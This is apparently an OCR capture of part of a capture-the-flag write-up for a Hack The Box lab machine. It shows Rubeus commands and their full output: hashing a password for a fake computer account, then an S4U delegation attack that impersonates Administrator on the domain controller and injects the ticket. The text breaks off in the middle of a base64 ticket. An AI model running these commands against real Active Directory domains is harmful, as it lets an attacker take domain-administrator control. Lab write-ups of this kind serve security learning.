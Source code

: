 ```bash
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Password123
[*] Input username             : FAKE-COMP01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake-comp01.support.htb
[*]       rc4_hmac             : 58A478135A93AC3BF058A5EA0E8FDB71
[*]       aes128_cts_hmac_sha1 : 06C1EABAD3A21C24DF384247BC85C540
[*]       aes256_cts_hmac_sha1 : FF7BA224B544AA97002B2BEE94EADBA7855EF81A1E05B7EB33D4BCD55807FF53
[*]       des_cbc_md5          : 5B045E854358687C
```
* Step 6 S4U(Service For User) attack to impersonate the Administrato user using the fake machine account

```bash
../Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: 58A478135A93AC3BF058A5EA0E8FDB71
[*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE-COMP01$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFhDCCBYCgAwIBBaEDAgEWooIEmDCCBJRhggSQMIIEjKADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBFIwggROoAMCARKhAwIBAqKCBEAEggQ84DUrmdeh
      6CKXZHXrvyE+cJccMDinBPZeH8uIKiJ9mQ4d+tpCqwYbEWNdi0A+Al6xwLhzI0WU4eb7tqFpnGVvf/Vu
      O7QHewAiTxzQQcB8Lfd1OS8OqL6YwQs0C4KKZ9kkzON5VLQ1KvUzOVAEMkEKbk/HqEbxTDBbOpXf5NFH
      AR1yR1Vs7qABuihH1rqG/d6M6M6SBTi4kpfB0Ogv+VKp73WfEuHb2ohvxLKuftk6a1fWYdPQCXypYUjW
      foQa6iC8Tz+2QX2qYQpguE0DEJfvsQtDjE8iHAMy7WdAN7+tVpnfdlUHsZEwGnS7dvxzKFWhHL/WHTcC
      AEMq6tZEHUss9BpP1MsC/7oGc8NjT5jhcRG8BOMs+EwCxiY1u6dvLBQJnhRMoH1Ly93IqqAMHE8idRj3
      rtd7Eecg/U7rfwshqJCHbsvwi8D47465N0G6atBhXapVNN2O1JFRgsX12UNHPuMzhE9Jp0sBt5a4Wp99
      OnnWW/SCXw0FP9kQkfGQsuMZCq7A4F8jMGYOJtMP5pu58wOWNpPjrJNgj4v0AymzNvH2ekyA7sw5Lk/n
      l7GBoa9CXyFLh0agU23Tw2vSrnPka7OSxVHhvfJMPnNdgQmo/rMVX2JItORBeGdZmFW9XICCvlgxCZzJ
      UvOb1R+HVGC859jIU91hssbPt0QS38tVLTO+3TcpfZ6Xwe8yT7L2JK/7xt/8LlU3PD9OVnN3u1Si2Ybj
      ZvSe3AP4bHaJFEW/eLcWATTYVISgFu2uKjmZ+OEK2dninaBViGrM2pUGfaVjMCrp+axfAbBfqIxL/xX7
      wNfV0XVx6sDpxmaGCYY8ZNv8TfykhakAV6u5fAAg87a1GfDQL3RcqFJ6nFyXKxYTadkMiOb9WTY74Xrw
      UtLRCcjTBJuHQJuI8rXthRanIuzA2LaCYAGUgQU4H9JLSTFFldzLdb0cWkIWv8y1HTTlkS3IaP0WiuQc
      DLy2dlf6xUzwG+G3c6XytIy/hhu2bjUKei7vw3As+DKgNBcsJtzptfKAo1H8CnkipoUgt5ZHqLyKrwqu
      fCx5jQjOkFn5ZPfjRe6HNj3zL4+J3eqlXjaascFgpi/dK/O3xTPxkfBk6Mhu/R3xWj1dhDyo2kdvbinq
      r4VPcQryn72gQBjuyfB1t99Liryu80Kmso8rt3UO2hhlP+QZo8TVDMxx9DGBjEewaEP1Bfk0QZqpMIlR
```